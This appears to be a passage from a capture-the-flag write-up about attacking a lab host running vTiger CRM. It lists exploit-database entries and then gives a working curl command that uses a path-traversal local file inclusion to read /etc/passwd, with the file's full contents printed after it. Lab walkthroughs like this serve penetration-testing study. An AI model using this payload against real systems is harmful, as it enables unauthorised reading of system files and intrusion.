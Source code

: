 ```bash
vTiger CRM 5.2.1 - 'vtigerservice.php' Cross-Site Scripting                        | php/webapps/35577.txt
vTiger CRM 5.3.0 5.4.0 - (Authenticated) Remote Code Execution (Metasploit)        | php/remote/29319.rb
vTiger CRM 5.4.0 - 'index.php?onlyforuser' SQL Injection                           | php/webapps/28409.txt
vTiger CRM 5.4.0 SOAP - AddEmailAttachment Arbitrary File Upload (Metasploit)      | php/remote/30787.rb
vTiger CRM 5.4.0 SOAP - Multiple Vulnerabilities                                   | php/webapps/27279.txt
vTiger CRM 5.4.0/6.0 RC/6.0.0 GA - 'browse.php' Local File Inclusion               | php/webapps/32213.txt
Vtiger CRM 6.3.0 - (Authenticated) Arbitrary File Upload (Metasploit)              | php/webapps/44379.rb
vTiger CRM 6.3.0 - (Authenticated) Remote Code Execution                           | php/webapps/38345.txt
Vtiger CRM 7.1.0 - Remote Code Execution                                           | php/webapps/46065.py
----------------------------------------------------------------------------------- ---------------------------------
```

There are two things to note here:
- the 5.2.1 local file inclusion vulnerability can be used to get the user.txt, given that we can read the ```/etc/passed``` to guess the username



```bash
-rw-rw-r-- 1 fanis fanis 33 Jan 21 18:20 /home/fanis/user.txt
```
the LFI exploitation is fairly simple:
```
curl --insecure https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php\?module_name\=../../../../../../etc/passwd%00
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
```